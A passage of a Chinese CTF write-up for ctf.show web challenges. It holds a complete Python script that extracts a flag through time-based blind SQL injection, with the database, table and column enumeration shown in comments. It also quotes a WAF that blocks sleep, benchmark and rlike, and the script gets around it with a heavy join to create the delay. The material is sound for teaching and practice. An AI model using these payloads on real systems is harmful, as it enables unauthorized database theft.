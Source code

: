 脚本：（执行较慢，耐心等待）
```python
'''
Author: KonDream
Date: 2021-12-16 14:03:54
LastEditors:  KonDream
LastEditTime: 2021-12-16 14:40:13
Description:  
'''
import requests

url = "http://3efff415-cc9f-459f-b367-913404f94af4.challenge.ctf.show/api/index.php"

flag = 'ctfshow{' 
# 爆数据库名 ctfshow_flagxc,ctfshow_info
# payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
# 爆表名 id,flagaac,info
# payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagxc'"
# 爆字段
payload = "select flagaac from ctfshow_flagxc"

for i in range(9, 46):
    # 查找ascii从32-128的所有字符
    low = 32
    high = 128
    # 二分查找 提升效率
    while True:
        mid = (low + high) >> 1
        if low == mid:  # low处对应字符即为数据库中的字符
            flag += str(chr(mid + 1))
            print('[*] {}'.format(flag))
            break
        
        data = {
            # 二分法查找字符，ascii值大则sleep
            'ip' : "1) or if(ascii(substr(({}), {}, 1)) > {}, (SELECT count(*) FROM information_schema.columns A join information_schema.columns B), 1)-- -".format(payload, i, mid),
            'debug' : 1
        }

        r = requests.post(url=url, data=data)
        r = r.elapsed.total_seconds() # 获取页面响应时间
        # print(r)
        if r > 1: #响应时间超过1s，证明查询成功
            low = mid # 查询成功，区间向右靠拢
        else:
            high = mid # 查询失败，区间向左靠拢
```
## web219（时间盲注）
```php
    //屏蔽危险分子
    function waf($str){
        return preg_match('/sleep|benchmark|rlike/i',$str);
    }   
```
同上，需调整查询时间
```python
'''
Author: KonDream
Date: 2021-12-16 14:46:37
LastEditors:  KonDream
```